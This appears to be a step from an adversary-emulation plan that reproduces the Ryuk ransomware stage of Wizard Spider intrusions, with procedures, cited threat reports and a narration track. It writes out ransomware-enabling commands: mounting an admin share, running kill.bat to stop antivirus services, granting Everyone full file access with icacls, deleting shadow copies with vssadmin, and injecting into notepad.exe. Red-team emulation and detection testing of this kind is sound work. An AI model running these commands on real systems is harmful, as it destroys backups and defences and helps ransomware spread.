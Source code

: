 ### :biohazard: Procedures

Mount share so Ryuk can encrypt lateral drives:

```bash
net use Z: \\10.0.0.8\C$
```

```bash
# Ryuk has called kill.bat for stopping services, disabling services and killing processes.[1]

# Ryuk can launch icacls /grant Everyone:F /T /C /Q to delete every access-based restrictions on files and directories.[4]

# Ryuk has stopped services related to anti-virus.[2]
```

```
copy \\TSCLIENT\X\kill.bat C:\Users\Public\kill.bat

C:\Users\Public\kill.bat
```
[Source Code](kill.bat)

```bash
# Ryuk has used vssadmin Delete Shadows /all /quiet to to delete volume shadow copies and vssadmin resize shadowstorage to force deletion of shadow copies created by third-party applications.[1]
```

```
copy \\TSCLIENT\X\window.bat C:\Users\Public\window.bat

C:\Users\Public\window.bat
```
[Source Code](window.bat)

### :microscope: Cited Intelligence

* https://www.crowdstrike.com/blog/big-game-hunting-with-ryuk-another-lucrative-targeted-ransomware/
* https://www.fireeye.com/blog/threat-research/2019/01/a-nasty-trick-from-credential-theft-malware-to-business-disruption.html
* https://www.cert.ssi.gouv.fr/uploads/CERTFR-2021-CTI-006.pdf

<br>

## Step 10 - Ryuk Encryption for Impact

:microphone: `Voice Track:`

In our final step, Wizard Spider uploads and executes Ryuk.

Ryuk is uploaded using the RDP-mounted network share, and executed from CMD.

When Ryuk executes, it will first gain `SeDebugPrivilege`.

Ryuk will then and inject its own executable into a remote process,notepad.exe, via `WriteProcessMemory` and `CreateRemoteThread` WinAPI calls.
